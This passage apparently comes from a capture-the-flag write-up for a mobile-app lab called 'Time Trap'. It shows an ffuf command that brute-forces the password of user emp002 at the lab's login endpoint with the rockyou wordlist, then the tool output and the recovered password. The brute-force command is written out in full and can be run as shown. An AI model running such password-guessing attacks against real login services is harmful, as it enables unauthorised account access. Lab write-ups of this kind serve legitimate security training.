 ```bash
└─$ ffuf -request request.txt -request-proto https -w /usr/share/wordlists/rockyou.txt -fc 401

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : https://mhl.pages.dev/time-trap/login
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Accept: */*
 :: Header           : Content-Type: application/json
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : User-Agent: Time%20Trap/1 CFNetwork/1390 Darwin/22.0.0
 :: Header           : Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
 :: Header           : Host: mhl.pages.dev
 :: Data             : {"username":"emp002","password":"FUZZ"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 401
________________________________________________

firefly                 [Status: 200, Size: 144, Words: 1, Lines: 1, Duration: 809ms]
```

<br />

The password for **emp002** is **firefly**, so you can sign in with username **emp002** and password **firefly**.

<br />

![](/assets/img/mhl/TimeTrap/9.png)
